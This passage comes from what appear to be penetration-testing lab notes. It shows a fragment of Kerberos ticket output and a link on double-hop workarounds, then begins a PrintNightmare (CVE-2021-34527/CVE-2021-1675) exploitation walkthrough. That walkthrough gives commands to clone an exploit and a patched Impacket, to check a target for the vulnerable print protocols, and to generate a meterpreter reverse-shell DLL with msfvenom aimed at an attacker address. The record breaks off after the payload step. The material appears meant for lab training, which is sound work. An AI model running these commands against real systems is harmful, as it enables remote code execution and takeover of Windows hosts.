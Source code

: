 ```bash
	Session Key Type: AES-256-CTS-HMAC-SHA1-96

	Cache Flags: 0

	Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

## External resource

as extranal resource to bypass this proble check this blog post:

- [Kerberos Double-Hop Workarounds](https://posts.slayerlabs.com/double-hop/)

# PrinterNightmare - Attack (CVE-2021-34527 and CVE-2021-1675)

`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution  

## Install cube0x0's Version of Impacket

For this exploit to work successfully, we will need to use cube0x0's version of Impacket

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

First to start, check if teh target have the **System Asynchronous Remote Protocol** and **System Remote Protocol enable**


```bash
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

## Generate and share meterpreter dll

generate a malicus dll

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

```
